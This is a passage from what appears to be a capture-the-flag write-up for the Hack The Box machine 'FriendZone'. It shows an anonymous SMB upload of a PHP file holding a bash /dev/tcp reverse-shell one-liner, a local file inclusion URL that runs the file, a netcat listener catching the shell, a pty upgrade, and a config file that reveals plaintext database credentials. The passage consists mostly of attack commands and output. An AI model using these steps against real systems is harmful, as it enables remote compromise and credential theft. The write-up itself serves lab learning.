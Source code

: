 We could display test string

## Reverse shell
put revshell
https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php

```
smbclient -N //friendzone.htb/Development   
Try "help" to get a list of possible commands.
smb: \> put revshell.php
cli_push returned NT_STATUS_IO_TIMEOUT
```

```revshell.php
cat revshell.php
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.26/1234 0>&1'");?>
```

```
https://administrator1.friendzone.red/dashboard.php?image_id=1.jpg&pagename=/etc/Development/revshell
```

```
nc -lnvp 1234
listening on [any] 1234 ...
connect to [10.10.14.26] from (UNKNOWN) [10.129.209.64] 52178
bash: cannot set terminal process group (750): Inappropriate ioctl for device
bash: no job control in this shell
www-data@FriendZone:/var/www/admin$ 
```

## Flag
```
www-data@FriendZone:/home/friend$ cat user.txt
cat user.txt
```

# Privilege escalation

## Enumeration

### Upgrade shell
```
python -c 'import pty; pty.spawn("/bin/bash")'
```

### www-data to friend
mysql_data.conf
```
www-data@FriendZone:/var/www$ cat mysql_data.conf
cat mysql_data.conf
for development process this is the mysql creds for user friend

db_user=friend

db_pass=Agpyu12!0.213$

db_name=FZ
```
